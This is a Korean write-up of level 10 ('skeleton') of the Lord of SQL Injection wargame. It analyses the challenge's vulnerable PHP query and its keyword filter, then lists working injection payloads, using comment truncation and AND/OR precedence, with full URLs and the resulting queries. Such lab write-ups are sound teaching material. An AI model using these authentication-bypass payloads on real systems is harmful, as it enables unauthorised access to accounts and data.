 # Lord of SQL Injection No.10 - skeleton

## 문제 출제 의도

SQL Injection을 통해 필요하지 않은 조건절을 무력화시킬 수 있는지 확인한다.

## 소스 코드 분석

skeleton 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
```
* 받은 id가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. 주석 처리 이용

    MySQL에서는 `#`, `-- -`와 같은 주석문자에 이어져 나오는 문자열을 모두 무시한다.

    따라서 입력값으로 `' or id='admin'%23`, `' or id='admin'-- -` 과 같이 마지막에 주석을 넣은 값을 넣으면 삽입된 문자열까지만 처리하여 문제가 풀리게 된다.

    ```
    http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin'%23
    (URL Encoding 후 공백은 %20, #은 %23, '는 %27이 된다.)

    http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin'-- -
    ```

    ```
    select id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0

    select id from prob_skeleton where id='guest' and pw='' or id='admin'-- -' and 1=0
    ```

2. 논리 연산 우선순위 이용

    MySQL에서 WHERE절의 논리 연산같은 경우 AND연산이 OR연산보다 우선 처리된다.

    따라서 입력값으로 `' or id='admin' or '1'='1` 과 같은 값을 넣으면 `id='guest'`인 행의 `pw`가 빈 문자열이 아닌 경우 논리 연산 후 결국 `id='admin'`인 행을 불러오는 SQL문이 되어 문제가 풀리게 된다.

    ```
    http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin' or '1'='1
    ```

    ```
    select id from prob_skeleton where id='guest' and pw='' or id='admin' or '1'='1' and 1=0
    ```
